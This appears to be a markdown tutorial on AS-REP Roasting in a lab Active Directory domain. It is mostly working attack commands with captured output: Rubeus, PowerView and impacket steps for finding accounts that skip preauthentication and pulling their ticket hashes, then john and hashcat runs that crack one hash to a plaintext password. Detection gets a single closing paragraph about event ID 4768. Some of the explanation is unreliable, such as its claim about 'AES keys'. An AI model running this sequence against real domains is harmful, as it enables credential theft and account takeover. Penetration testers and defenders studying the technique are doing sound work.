









# AS-REP Roasting Attack

> Windows 2008 R2

## Introduction

AS-REP Roasting is an attack against authentication using the Kerberos protocol, with the aim of exploiting Kerberos vulnerabilities to obtain user credentials in the Active Directory.

Kerberos is a network authentication protocol used to securely verify users and services on computer networks. The Kerberos protocol uses tickets to verify user identity. In Active Directory, user credentials include a password hash and an AES key for KERBEROS.

AS-REP Roasting exploits a vulnerability in the Kerberos protocol, which allows attackers to collect AS-REP responses by sending invalid authentication requests (AS-REQ) in certain circumstances. The AS-REP response contains the user's encrypted AES key, **which attackers can use to crack the password hash and obtain user credentials**.




## Environment Setup

If the domain user has the option "**Do not require Kerberos preauthentication**" set, **this option is typically not enabled by default**.






## 漏洞利用

### rubeus

To obtain a hash using Rubeus.exe

```css
Rubeus.exe asreproast
```




### powershell

To find users in the domain who have "Do not require Kerberos preauthentication" 

```powershell
 Import-Module .\powerview.ps1
 Get-DomainUser -PreauthNotRequired
```



To obtain the hash returned by AS-REP, use `ASREPRoast.ps1` in Markdown format.

```powershell
PS C:\> Get-ASREPHash -UserName hacker -Domain sectest.com
$krb5asrep$hacker@sectest.com:d0a157853391aab1e8e01bc686fb163a$809336bab609b5471e00dfd086ec87a1b2dcaa329c36753a0da5ecba
7c360e3aefb21c07a363139c9f0aeff96da09345137fc6b2a4320cec2be50a7a1f91548881c933f968657018c29fab4f7c370d48ad1bf4484164dfc
0435b1a6ca8313280d1b8c854da0e97191a35b94e2065020e2712b9ae9ed11b4be4c8d0d213c8dd8e462c1c2192b9e3904bc1ccea93e956cbcb442d
72d9e1fbacc81a261482e08a601c82b7927bc15e8ec2fd36725bc4d7a50a2a7519000896a7205ab87890584076a14c818f185ff206f2fb957324ec3
d591e2e623d1a14d5732fced962db9d5fcfae397c7bcb4ead5e5608
PS C:\>
PS C:\>
PS C:\> Get-ASREPHash -UserName administrator -Domain sectest.com
$krb5asrep$administrator@sectest.com:ba6badff514dd32e51a8375d59d3b4fd$4b19d25ec755b55a6c350740d6b7e91b3d980ae234ba5721b
d81177e0f5ad065a248dae0b9a2ca7968d8dd6238c1771c1376445296e8fc3c10ec1323b23bc76438b8ffff191e2da0961e47216caa5e3b3372d9d7
71bdf037c62c10ddbc9ed87cc4097539c14b74eea80b35ae0817953da40c0e8bf8fd12543db6753b0a4b0c007aa04090f7d0c88625ba4d200bba287
b98d6048544c35717d0571d6e121aebf613f240fbbd053d11f97aae1bf28473431addc504ce97d291a633f09a301d5e97c21220d2261de0beab1339
2512134d77ac292bf3af0adc3d864db4b9c8f0460754aab44c45863aa95e7a
PS C:\>
```


### impacket

User Brute-Forcing

```sh
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# python3 GetNPUsers.py sectest.com/ -usersfile /tmp/user.txt  
```



Obtaining Ticket Information for a Specific User

```sh
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# python3 GetNPUsers.py sectest/administrator -no-pass -dc-ip 192.168.32.144 -request                                                                                                                                        
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for administrator
$krb5asrep$23$administrator@SECTEST:7a5b7de0d5af4a66f5ee83a3eb48b726$e6c5ea6fb79ea8154a25f7ba4b0f12c265f7c2f10ef2591cba1ccdb1b42bc38f39dde177ac87da7dc9c66c90966afd12a7a131c817ce5f84b57312f5b846b5bc86a516a982ca438a6a4914d5c9220cbded7a5cf05ddf374f5cf3b3e735046e510bd688db79fde9ed15601e52d9991a21fc758b634df9932ace8839da67fbf36bbb670158005beac9a1b65806964f104accf99065edf74c80c113ced5fa13fb11a54e1eaf33f4ffbad561891d66917b4b728838b01e3469aed2c54f6c99c0aca879f24f92f8ccb703b69cd5bd9f6507a89be384297881d037550066a88a38d9bd7ad71b1006dc
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# python3 GetNPUsers.py sectest/hacker -no-pass -dc-ip 192.168.32.144 -request                                                                                                                                                  
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for hacker
$krb5asrep$23$hacker@SECTEST:a7b9a372f2e3a0fa7568e860797ae62b$bd120f6279317280bf9e3b949cbac5b30bb3734926a9a13edd3dee5028b718541a938963f5279bac3f92c64eeb88c7255b3f2dac60106ac14abfe0bb4f43dbe7ec4e91a8ed7703049620e6e79bdb23451cf631694c27a9e88ee8433c0bda6bd1da67064d90d576e8bcecdef3fecb1ba14ac3c3acc4a35ca76bd34e4f7fee122378ed77f49b6ec452183f5b4462e03e565da49bd62227065c87b20293c5f2156a143e3b4a2902c8da7193131b7fa061426004dec87d6ddb0bc3fced9b3fd135aa0dbde8acdb76b45dd54e0f41db10792775cd0a6d98d35fbed53022fb6439aff534406491213b

```


# Hash Cracking

### john

```sh
┌──(root💀kali)-[/tmp]
└─# john --wordlist=password.txt hash.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
abcABC123        ($krb5asrep$23$hacker@SECTEST.COM)
1g 0:00:00:00 DONE (2022-07-01 05:58) 10.00g/s 701890p/s 701890c/s 701890C/s punkey..pinkk
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

### hashcat

```sh
┌──(root💀kali)-[/tmp]
└─# hashcat -a 0 -m 18200 hash.txt password.txt --force  
```



## Log Analysis

Windows event ID 4768 is the event ID for the Kerberos authentication service, which is used to record events of Kerberos authentication requests. This event ID usually does not indicate an attack by itself, but if you notice an abnormal amount or unauthorized Kerberos authentication requests, it may indicate an attack.



